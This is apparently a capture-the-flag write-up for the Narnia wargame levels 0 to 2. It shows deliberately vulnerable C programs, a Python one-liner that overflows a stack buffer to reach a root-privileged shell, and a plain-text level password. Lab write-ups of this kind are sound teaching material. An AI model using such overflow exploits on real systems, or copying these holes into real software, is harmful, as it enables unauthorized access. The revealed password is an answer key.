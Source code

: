 ## narnia0 -> narnia1
```C
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
		system("/bin/sh");
    }
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}

```

```bash
 $ (python -c 'print "a"*19+"\x00"+"\xef\xbe\xad\xde"';cat) | ./narnia0
```

##### PASS=efeidiedae 

#
#
#

------------------------------------------------------------------------------------------------------------------------------------


## narnia1 -> narnia2

```C
#include <stdio.h>

int main(){
	int (*ret)();

	if(getenv("EGG")==NULL){
		printf("Give me something to execute at the env-variable EGG\n");
		exit(1);
	}

	printf("Trying to execute EGG!\n");
	ret = getenv("EGG");
	ret();

	return 0;
}
```
